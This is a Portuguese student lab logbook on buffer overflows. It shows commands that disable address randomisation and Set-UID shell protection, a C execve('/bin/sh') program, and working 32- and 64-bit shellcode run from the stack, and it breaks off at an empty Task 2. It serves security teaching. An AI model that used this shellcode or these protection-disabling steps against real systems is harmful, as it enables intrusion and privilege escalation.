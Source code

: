 # LOGBOOK5 - Buffer Overflow

## Setup

Antes de iniciarmos o guião da semana 5, devemos desligar algumas proteções do sistema operativo (para nos facilitar), tais como a randomização do espaço de endereços e a proibição ao nível da shell de ser executada por processos com Set-UID.

```
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
```
## Task 1

Primeiramente, executamos o seguinte código :

```
#include <stdio.h>
int main(){
	char*name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Reparamos que abriu uma shell na mesma pasta onde foi executado o programa.

Depois executamos o call_shellcode.c:
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e""\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57""\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f""\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31""\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;
int main(int argc, char**argv){
    char code[500];strcpy(code, shellcode); // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                 // Invoke the shellcode from the stack
    return 1;
}
```

Ao executar este ficheiro usando o `make`, reparamos que é criado 2 ficheiros `a32.out a64.out`. Quando executamos qualquer um deles, reparamos que é aberto um shell.

## Task 2



